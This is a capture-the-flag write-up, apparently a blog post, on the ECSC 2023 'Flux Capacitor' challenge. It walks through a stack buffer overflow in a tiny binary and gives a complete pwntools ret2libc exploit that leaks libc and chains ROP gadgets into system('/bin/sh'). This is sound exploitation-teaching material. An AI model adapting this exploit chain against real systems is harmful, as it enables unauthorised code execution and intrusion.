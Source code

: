 ```yaml
---
id: 16
title: "ECSC 2023: Flux Capacitor"
subtitle: "ECSC 2023 Day 1: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, pwn, ctf"
---
```


## Foreword

This challenge was honestly a mystery because it was released near the end of Day 1 yet it's a much easier pwn challenge than all the other challenges. It barely has any code and is just a straight forward buffer overflow ret2libc challenge.

# Flux Capacitor

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d1/flux_capacitor/flux_capacitor'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It has Full RELRO and NX enabled, but no canary or PIE.

We open the binary up in IDA to see that it's as straight-forward as it gets.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  setup(argc, argv, envp);
  write(1, "\nFlux capacitor: \n", 0x13uLL);
  write(1, " __         __\n", 0x10uLL);
  write(1, "(__)       (__)\n", 0x11uLL);
  write(1, " \\ \\       / /\n", 0x10uLL);
  write(1, "  \\ \\     / /\n", 0xFuLL);
  write(1, "   \\ \\   / /\n", 0xEuLL);
  write(1, "    \\ \\ / /\n", 0xDuLL);
  write(1, "     \\   /\n", 0xCuLL);
  write(1, "      \\ /\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      |_|\n", 0xBuLL);
  write(1, "      (_)\n", 0xBuLL);
  write(1, "\n\n[*] Year: [1955]", 0x13uLL);
  write(1, "\n[*] Plutonium ", 0x10uLL);
  write(1, "is not available ", 0x12uLL);
  write(1, "to everoyne.\n", 0xEuLL);
  write(1, "\n[Doc]  : We need ", 0x13uLL);
  write(1, "to find a way to", 0x11uLL);
  write(1, " fill the Flux ", 0x10uLL);
  write(1, "Capacitor with ", 0x10uLL);
  write(1, "energy. Any ideas", 0x12uLL);
  write(1, " Marty?\n[Marty]: ", 0x12uLL);
  read(0, buf, 0x100uLL);
  write(1, "\n[Doc]  : This ", 0x10uLL);
  write(1, "will not work..\n\n", 0x12uLL);
  return 0;
}
```

Yep, that's the whole binary. Honestly it felt like a mystery that they put this in as a challenge in a competition as big as ECSC 2023, but I'm not complaining.

We can see that `char buf[32]` is declared with size 32 but `read(0, buf, 0x100uLL);` reads `0x100` bytes into `buf`. Textbook buffer overflow.

Since this challenge is Full RELRO, we cannot directly execute shellcode, hence we will do ret2libc.

Leak `write` address and return to main, calculate libc base, then perform ROP chain to pop shell.
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("../sols/ezpwn/flux_capacitor_patched", checksec=False)
# context.log_level = 'debug'
libc = ELF("./libc.so.6")

# Run binary 1st time
p = exploit_source("../sols/ezpwn/flux_capacitor_patched", "localhost")

rop = ROP(elf)

# find and pop write, then go back to main
rop.write(1, elf.got['write'])
rop.main()

payload = flat({0x20: p64(0) + rop.chain()})

p.sendlineafter(b"[Marty]:", payload)

# grab output, calculate libc base
p.recvuntil(b"will not work..\n\n\0")

leak = u64(p.recvn(8))
offset = libc.sym.write
libc.address = leak  - offset
info(f"{hex(leak) =}")
info(f"{hex(offset) =}")
success(f"{hex(libc.address) =}")

pause()

# find /bin/sh and call system
rop1 = ROP(libc)

rop1.system(next(libc.search(b"/bin/sh")))
p.sendlineafter(":", flat({ 0x20: p64(0) + rop1.chain() }))

p.interactive()
```

`cat flag.txt` for the flag.